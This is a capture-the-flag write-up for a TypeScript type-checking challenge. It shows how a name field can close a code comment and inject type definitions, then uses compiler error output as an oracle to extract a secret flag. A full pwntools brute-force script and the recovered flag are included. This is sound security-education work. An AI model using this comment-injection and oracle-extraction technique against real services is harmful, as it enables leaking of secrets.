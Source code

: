 # typscrip
```
I like typescript. Do you like typescript?

nc chall.pwnoh.io 13381
```

We are given a zip [archive](./archive/) and a remote connection port.
In the archive we find Docker stuff so we can run it locally, and an [app.mjs](./archive/app.mjs) file.
Inspecting the file we find that the flag is retrieved from an env variable, and searching for it's usages
we find only one:
```js
const source = `/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```

Inspecting the code we also learn that we are prompted our name (`${name}`) and for typescript code to check (`code`).

After we enter all of our code, it's passed to the `compile` function which doesn't actually run the code, but only checks for errors in it.

So how do we solve it?

First, we are prompted for out name, so we can probably somehow exploit it.
If we look again at how the `source` variable is created, we see that our name
is put in a comment, but nothing stops us from closing the comment in the name!
So a name like `*/` will close the comment and allow us to enter javascript in our name.

But how do we exploit it? Let's try to save the flag in a variable in typescript code.
Let's set our name to be
```ts
*/ const myString = `
```
And then we can terminate the string in our `code` part. So our code will be:
```ts
`;
```

Great! But now how do we get the flag out? Looking at the `compile` function, all
it returns is a list of strings with content like
```js
`${severity} on line ${diagnostic.getLineNumber()}`
```
Let's try and see how it looks
```
What is your name?
> den
Hello, den. Give me some code: (end with blank line)
> 0 == 1 // This is an error in typescript, as it will always be false.
> 
Thinking...
Error on line 3
```
So all we get is kinda binary output, error/no error, just like `true`/`false`.
If we could somehow go over each character in the flag, and compare it to first
`a`, then `b`, then `c`, then `d` and etc in such a way that only the correct character
didn't create an error, we could "brute force" the flag character by character.

The problem is: how do we do so? First, we know it must be something at compile-time,
as the code is never even run. So let's search for `typescript run code at compile time`
on Google!

The first two results are
```
https://developers.mews.com/compile-time-functional-programming-in-typescript/
https://github.com/Microsoft/TypeScript/issues/26534
```
Looking at the github result, it looks like the feature proposal wasn't accepted,
so it will not help us. But what about article?

An interesting snippet in that article is
```ts
type Head<T> = T extends [infer H, ...infer Rest] ? H : never;  

type X = Head<[1, 2, 3]>;  // 1
```
It looks like the author found a way to get the first element of a list at compile time into a type `X`
But the flag characters are in a string, so we change this code to work with strings.

Searching for `inferring character type inside string typescript` gives us
[this](https://medium.com/@anchen.li/fundamentals-of-advanced-typescript-types-part-5-592f9174bdcf)
link, which uses the `${infer first}${infer rest}` syntax to get the first character of the string.

Playing a little with this, we can find out that doing `${infer first}${infer second}${infer rest}`
gives us the type of the second type, and so on.

So what's our plan? First we exploit the bug with `name` to create our `type CurrentChar<T>`
which will get us the type of the character at an index, and then we create
`type MyString` which will contain the string with the flag. Then in our code
part we use CurrentChar<MyString> to get the type of that character, and we are almost done!
`CurrentChar<MyString>` is of the same type as a character in the flag, right?
Say that character is `x`, what happens when we create a variable
```ts
let a: "x" = "y";
```
That's right! The type doesn't match, so we get an error. If instead of `y` it
would been `x`, everything would "compile" without any errors. So let's just send

`let a: "x" = "a";`, `let a: "x" = "b";`, `let a: "x" = "c";`, `...`

Until we get no error, and thus the character we sent is correct!
Now instead of `"x"`, we are going to send `CurrentChar<MyString>`, which as
you remember has a type of a flag character.

I decided to automate the character brute force using python, where we try each
character until we get a `"Congrats"` in the response.

The `"Congrats"` comes from this `if` check in the server source-code:
```js
if (errors.length === 0) {
    socket.write('Congrats, your code is perfect\n');
} else {
    socket.write(errors.join('\n') + '\n');
}
```

Oh, and one last thing, how do we know at which index the flag starts and ends?
Well, it's easy to know when it ends, you will just encounter a `}`, but to know
how it starts we need to take into account what our string contains.

If we insert our code into `name` in (the today is replaced with the current date and the flag with the flag)
```js
const source = `/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```
the source variable will contain the following typescript:
```ts
/* TYPE CHECKED FOR */ type MyString = ` ON 10/1/2023. THE FLAG IS "bctf{some_flag_here}". */

`; // <- this will be added in our `code`
```

and because we know everything before the flag, we can just count at which
index to start, or use a function to get this index for us.

Combining all of this into a python script we get the following solve script
```py
import pwn

FLAG_START = "bctf{"

# Extracted from the source code. We use it only to get the index where the flag
# starts
FLAG_STRING = ' ON 10/1/2023. THE FLAG IS "bctf{fake_flag}"'

FLAG_START_INDEX = FLAG_STRING.find(FLAG_START) + len(FLAG_START)

# Charset optimized for 1337
CHARSET = "_" + "4bcd3fghijklmn0pqr57uvwxyz" + "o12eas6t89" + "}"
pwn.log.info(f"Using charset '{CHARSET}'")


def try_char_at_index(ch: str, idx: int) -> bool:
    code_prefix = (
        b"*/type CurrentChar<T extends string> = T extends `"
        + b"${infer _1}" * idx
        + b"${infer Char}${infer Rest}` ? Char : never; type MyString = `"
    )

    code_suffix = f"""`;
    // @ts-ignore
    type CurrentCharacter = CurrentChar<MyString>;
    let a: CurrentCharacter = '{ch}';
    """.encode(
        "utf-8"
    )

    p = pwn.remote("chall.pwnoh.io", 13381)
    p.sendline(code_prefix)
    p.recvuntil(b"(end with blank line)\n")
    p.sendline(code_suffix)
    p.sendline(b"")
    response = p.recvall()

    return response is not None and b"Congrats" in response


flag = FLAG_START
current_char_index = FLAG_START_INDEX

while True:
    for ch in CHARSET:
        pwn.log.info(
            f"Trying '{ch}' for index {current_char_index}. Current flag: {flag}"
        )
        if try_char_at_index(ch, current_char_index):
            flag += ch
            current_char_index += 1

            if ch != "}":
                break

            pwn.log.success(f"flag: {flag}")
            exit(0)
```

Success! The flag is `bctf{4ny1_w4n7_50m3_4ny_04c975da}`.

#### Notes:
- You can make this script a lot faster by just using threads, or
    doing something smart with brute forcing all the chars at the same time because
    you know on what line the error was. But that's left as an exercise for the
    reader :D
- The `// @ts-ignore` is needed because typescript complains that the "expression
    produces a type that's too complex to represent".

